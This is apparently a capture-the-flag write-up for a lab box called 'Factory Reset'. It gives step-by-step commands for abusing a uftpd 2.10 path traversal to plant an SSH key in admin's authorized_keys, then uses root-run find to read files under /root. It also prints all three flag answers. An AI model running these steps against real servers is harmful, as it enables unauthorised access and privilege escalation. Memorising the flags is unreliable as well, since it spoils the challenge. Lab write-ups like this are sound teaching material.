



# Factory Reset, 300 points

## Flag 1

First, you have to connect to the VPN with the command:
`sudo openvpn yourvpnfile.ovpn`

Next, let's run an nmap scan:
`nmap -sC -sV 10.6.0.100`

There are two interesting things here, ssh access, and **uftpd 2.10** access

After some research, I found this document: https://www.suryadina.com/assets/pdf/Project_CVEs_UFTPD_published.pdf

I conclude that I must abuse the flaw of uftpd 2.10 to put my SSH key there.

`ssh-keygen -b 2048 -t rsa -f ~/.ssh/sshkey_lab`
`mv ~/.ssh/sshkey_lab.pub ./`

Then I connect in FTP
`ftp 10.6.0.100 #avec anonymous`

With
`ls ../../home`
I see that there is a user called "admin".

So I use the command:
`put sshkey_lab.pub ../../home/admin/.ssh/authorized_keys`

I log out and try to log in using SSH.
`ssh -i ~/.ssh/sshkey_lab admin@10.6.0.100`

And it works!

**Flag 1 : CTF{Th3_Inc3pt0r}**

## Flag 2

To find the second flag, I just went through the files and found it in `/var/backups/DATA/flag1.txt`

**flag 2 : CTF{F0rtREss_Br3@c#3d}**

## Flag 3

I think the flag 3 is in the root folder, for that I have to do a bit of privilege escalation.

I start by running LinPEAS to try and find flaws.

I notice that the **find** command is executed with the root user.

So I use the command:
`find /root -type f -exec cat {} \;`

And it works !

**Flag 3 : CTF{!_@m_r00t3d}**